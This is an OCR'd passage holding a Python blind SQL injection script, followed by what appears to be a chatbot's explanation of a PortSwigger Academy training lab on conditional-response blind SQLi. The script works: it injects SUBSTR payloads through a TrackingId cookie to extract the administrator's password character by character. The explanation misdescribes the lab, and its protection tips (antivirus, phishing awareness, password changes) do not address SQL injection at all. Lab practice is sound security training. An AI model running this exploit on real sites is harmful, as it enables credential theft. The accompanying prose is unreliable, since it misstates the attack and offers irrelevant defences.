 ```python
                    for x in printable:
                        payload = f"{self.tracking_id}\' AND SUBSTR((SELECT password FROM users WHERE username=\'administrator\'),{z},1)=\'{x}\'--"
                        self.cookies["TrackingId"] = payload
                        self.cookies["TrackingId"] = urllib.parse.quote(self.cookies["TrackingId"])
                        print(f"Trying password: {x}❓")
                        response = self.req.get(self.url, cookies=self.cookies, proxies=self.proxies, verify=False)
                        if response.status_code == 200:
                            if response.text and "Welcome back!" in response.text:
                                print(f"⚖️ Found next password character: {x}")
                                self.password = self.password + x
                                print(f"📝 Currently know password {self.password}")
                                self.get_password(z+1, end)
        print(f"🔮 Password is: {self.password}")
        with open("sqli-blind-conditional-result", "w") as f:
            f.write(f"🔑 \'administrator\' password is: {self.password}")
        print("✅ Done, check file `sqli-blind-conditional-result` for outcome")
        exit(0)

BlindSQLiConditional().get_password()
```

Sure. The Blind SQL injection with conditional responses tutorial example in PortSwigger Academy demonstrates how a website can be vulnerable to blind SQL injection attacks by using conditional responses.

In the tutorial, the user is first prompted to enter their username and password. After they have successfully entered their credentials, they are logged in to the website.

The website is vulnerable to blind SQL injection because it does not properly sanitize user input. This means that an attacker can inject malicious SQL code into the website's database.

The attacker can use this vulnerability to extract data from the database by injecting malicious SQL code that will cause a conditional response. When the error occurs, the website will not display an error message to the user, but the response will change depending on whether the condition is true or false.

To exploit this vulnerability, the attacker would first need to identify a database table that they want to extract data from. They can do this by submitting a variety of malicious SQL queries and observing the responses. Once the attacker has identified a table, they can then use conditional responses to extract the table contents.

The Blind SQL injection with conditional responses tutorial example is a good demonstration of how a website can be vulnerable to blind SQL injection attacks by using conditional responses. It is important to be aware of these vulnerabilities and to take steps to protect yourself.

Here are some tips for protecting yourself from blind SQL injection attacks:

* Use a strong username and password for your online accounts.
* Change your passwords regularly.
* Be suspicious of emails or text messages that ask for your personal information.
* Install antivirus software and keep it up to date.
* Be careful about what websites you visit and what links you click on.
* Train yourself and your employees on how to identify and avoid phishing attacks.
